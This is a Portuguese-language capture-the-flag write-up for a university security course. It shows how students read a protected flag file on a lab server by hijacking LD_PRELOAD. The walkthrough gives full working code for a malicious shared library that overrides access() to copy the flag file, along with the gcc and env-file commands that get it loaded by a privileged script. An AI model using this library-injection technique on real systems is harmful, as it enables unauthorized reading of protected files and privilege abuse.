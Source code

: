 # CTF 2 - Semana 4

## Reconhecimento

Ao entrarmos no port 4006 do host ctf-fsi.fe.up.pt, usando o comando `nc ctf-fsi.fe.up.pt 4006` com o vpn da FEUP ativado, fizemos o ls -l para verificar o conteúdo da pasta onde estávamos.

![ls](/Images/lsl.png)

Após analisar o conteúdo do admin_note.txt , usando o `cat admin_note.txt`, percebemos que existe uma vulnerabilidade que pode ser explorada na pasta `tmp`, usando um script que corre regularmente no servidor. Podemos aproveitar isso para dar load de uma livraria maliciosa que é executado automáticamente pelo servidor (pois só ele tem as permissões para tal). Na livraria maliciosa podemos dar override à uma das funções que se encontram no main.c (`(my_big_congrats() puts() acess() )` e executar o nosso código malicioso.


```
flag_reader,

I locked you out of the temp folders.
Told you before they are not to be used as permanent storage!
Hackers stole the flag by reading the files you left there!!!!!!
Finish your damn program ASAP!!!!!
Tired of waiting for you to lock them out for good, you lazy !@%#

- The Admin
```
*admin_notes.txt*

```
#!/bin/bash

if [ -f "/home/flag_reader/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /home/flag_reader/env | /usr/bin/xargs)
    echo "" > /home/flag_reader/env
fi

printenv
exec /home/flag_reader/reader
```
*my_script.sh*

```
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```
*main.c*



## Ataque

Ao acedermos à pasta `tmp`, vamos criar um ficheiro access.c onde vamos escrever o nosso código malicioso, que será o seguinte:

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
}
```

Usando o seguinte comando, vamos escrever o código no ficheiro através do terminal:

```
echo '
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
} ' >> access.c
```

Podemos aproveitar para fazer `touch ll.txt` e `chmod 777 ll.txt`

Agora vamos criar a tal livraria maliciosa:

```
gcc -fPIC -g -shared -o /tmp/access.so /tmp/access.c -lc
```

E por fim, vamos alterar o conteúdo do env no tmp , dado que na imagem anterior, podemos reparar que é uma referência a este env:

```
echo 'LD_PRELOAD=/tmp/access.so' >> env
```

Agora esperamos que o servidor execute o nosso código e podemos obter a nossa flag no ficheiro .txt que criamos.

Exemplo de demonstração:

![flag](Images/order.png)

